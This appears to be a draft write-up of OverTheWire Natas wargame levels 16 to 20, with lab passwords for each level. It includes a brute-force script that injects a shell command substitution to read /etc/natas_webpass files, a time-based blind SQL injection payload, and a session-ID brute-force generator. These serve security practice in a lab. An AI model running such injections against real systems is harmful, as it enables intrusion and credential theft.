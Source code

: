 ```yaml
---
title: Wargames - Natas 1
published: false 
tags: game natas
---
```


# ## [Level 16 -> Level 17](https://overthewire.org/wargames/natas/natas17.html)

Username: natas16
Lab URL: http://natas16.natas.labs.overthewire.org/

I have updated previwous script to get password from this level:

```
import requests
import string 

username = "natas16"
passwd = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

valid = "hacker"

characters = list(string.digits) + list(string.ascii_letters)

print('Characters: {}'.format(''.join(characters)))

password = []

for i in range(1, 34):
    for ch in characters:
        url = 'http://natas16.natas.labs.overthewire.org/?needle=$(grep -E ^{}.* /etc/natas_webpass/natas17)hacker'.format(''.join(password)+ch)
        r = requests.get(url, auth=(username, passwd))
                
        if valid not in r.text:
            password.append(ch)
            continue

print('Password: {}'.format(''.join(password)))
```

password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw


# ## [Level 17 -> Level 18](https://overthewire.org/wargames/natas/natas18.html)

Username: natas17
Lab URL: http://natas17.natas.labs.overthewire.org/

payload: natas18" and if(substring(password,1,1)="x",sleep(5),'A')# -> if true then sleep for 5 seconds

password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

# ## [Level 18 -> Level 19](https://overthewire.org/wargames/natas/natas19.html)

Username: natas18
Lab URL: http://natas18.natas.labs.overthewire.org/

Brute force admin session id, you can use burp for this or write python script:

![Password](assets/natas/18/password.png)

password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

# ## [Level 19 -> Level 20](https://overthewire.org/wargames/natas/natas20.html)

Username: natas19
Lab URL: http://natas19.natas.labs.overthewire.org/

Firsty I decode session id:

![Session id](assets/natas/19/session_id_decode.png)

So now session id is number with additioan passphrase, I has generate data to brute force it, use following script to get data:

```
for i in range(0, 2000):
    payload = '{}-admin'.format(i)
    print(payload.encode('utf-8').hex())
```

After all prepare attack in burp:

![Password](assets/natas/19/password.png)

password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

# ## [Level 20 -> Level 21](https://overthewire.org/wargames/natas/natas21.html)

Username: natas20
Lab URL: http://natas20.natas.labs.overthewire.org/


password: 